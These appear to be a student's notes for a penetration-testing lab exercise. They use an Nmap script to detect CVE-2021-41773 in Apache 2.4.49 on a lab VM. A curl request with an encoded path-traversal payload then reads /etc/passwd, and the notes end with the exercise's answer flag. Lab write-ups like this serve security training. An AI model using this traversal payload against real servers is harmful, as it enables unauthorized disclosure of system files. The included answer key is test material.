 
1. **Capstone Exercise**: Follow the steps above to perform the vulnerability scan with the custom NSE script on VM #1. 
   Copy the link from the script output after _Verify arbitrary file read:_ and use it as parameter for curl.
   This will retrieve the content of **/etc/passwd** of the target machine and display it.
	   Be aware that you need to use _http_ instead of _https_ while keeping port 443 when you paste the link.
   Embed the last username of the file in the braces of "OS{}" and provide it as answer to this exercise.
```bash
# Google "CVE-2021-41773 nse".   Verify script is benign, and download.
https://github.com/RootUp/PersonalStuff/blob/master/http-vuln-cve-2021-41773.nse

# Copy to script folder & update the database
sudo cp ~/Downloads/http-vuln-cve-2021-41773.nse /usr/share/nmap/scripts/.
sudo nmap --script-updatedb
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-24 18:54 EST
	NSE: Updating rule database.
	Warning: File ./scripts/ exists, but Nmap is using /usr/bin/../share/nmap/scripts/ for security and consistency reasons.  set NMAPDIR=. to give priority to files in your local directory (may affect the other data files too).
	NSE: Script Database updated successfully.
	Nmap done: 0 IP addresses (0 hosts up) scanned in 0.36 seconds

# Run vuln script against host
sudo nmap -sV -p 443 --script=http-vuln=cve-2021-42773 192.168.197.13
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-24 18:54 EST
	Nmap scan report for 192.168.197.13
	Host is up (0.070s latency).
	Not shown: 995 closed tcp ports (reset)
	PORT     STATE SERVICE     VERSION
	443/tcp  open  http        Apache httpd 2.4.49 ((Unix))
	|_http-server-header: Apache/2.4.49 (Unix)
	| http-vuln-cve-2021-41773: 
	|   VULNERABLE:
	|   Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.49
	|     State: VULNERABLE
	|               A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the expected document root. If files outside of the document root are not protected by "require all denied" these requests can succeed. Additionally this flaw could leak the source of interpreted files like CGI scripts. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions.
	|           
	|     Disclosure date: 2021-10-05
	|     Check results:
	|       
	|         Verify arbitrary file read: https://192.168.197.13:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
	|       
	|     References:
	|       https://nvd.nist.gov/vuln/detail/CVE-2021-41773
	|_      https://httpd.apache.org/security/vulnerabilities_24.html
	
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 13.41 seconds

# Curl file listed under "Verify arbitrary file read".  **Will need to convert https to http
curl http://192.168.197.13:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
	root:x:0:0:root:/root:/bin/bash
	...
	a1bc1018053e488e74f83fc08700a0d9:x:1001:1001::/tmp/:/bin/sh
```
> Answer:   OS{a1bc1018053e488e74f83fc08700a0d9}
